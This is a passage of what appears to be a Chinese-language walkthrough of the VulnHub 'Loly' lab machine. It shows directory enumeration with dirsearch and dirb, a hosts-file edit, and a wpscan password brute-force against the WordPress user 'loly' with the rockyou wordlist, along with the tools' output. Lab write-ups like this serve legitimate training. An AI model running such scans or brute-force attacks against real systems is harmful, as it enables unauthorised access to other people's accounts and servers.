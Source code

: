 #### 目录扫描

##### dirsearch

```bash
$ dirsearch -u http://10.0.2.8 
Target: http://10.0.2.8/
[23:40:09] Starting: 
[23:40:31] 200 -    7KB - /wordpress/wp-login.php                           
[23:40:31] 200 -   28KB - /wordpress/
Task Completed
```

##### dirb

```bash
$ dirb http://10.0.2.8/                                 
URL_BASE: http://10.0.2.8/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
---- Scanning URL: http://10.0.2.8/ ----
==> DIRECTORY: http://10.0.2.8/wordpress/                                         
---- Entering directory: http://10.0.2.8/wordpress/ ----
+ http://10.0.2.8/wordpress/index.php (CODE:301|SIZE:0)    
==> DIRECTORY: http://10.0.2.8/wordpress/wp-admin/  
==> DIRECTORY: http://10.0.2.8/wordpress/wp-content/   
==> DIRECTORY: http://10.0.2.8/wordpress/wp-includes/    
+ http://10.0.2.8/wordpress/xmlrpc.php (CODE:405|SIZE:42)
```

### 漏洞发现

看来是wordpress有漏洞了，kali自带的wpscan就是干这个的

![1](https://static.iihack.com/vulnhub/538/1.PNG)

访问页面发现需要绑定一下host

```bash
$ sudo nano /etc/hosts
```

![2](https://static.iihack.com/vulnhub/538/2.PNG)

再次访问[http://loly.lc/wordpress/](http://loly.lc/wordpress/)

![3](https://static.iihack.com/vulnhub/538/3.PNG)

获得用户名`loly` 

#### wpscan

碰碰运气了

```bash
$ wpscan --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt    
[+] URL: http://loly.lc/wordpress/ [10.0.2.8]
Interesting Finding(s):
[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
```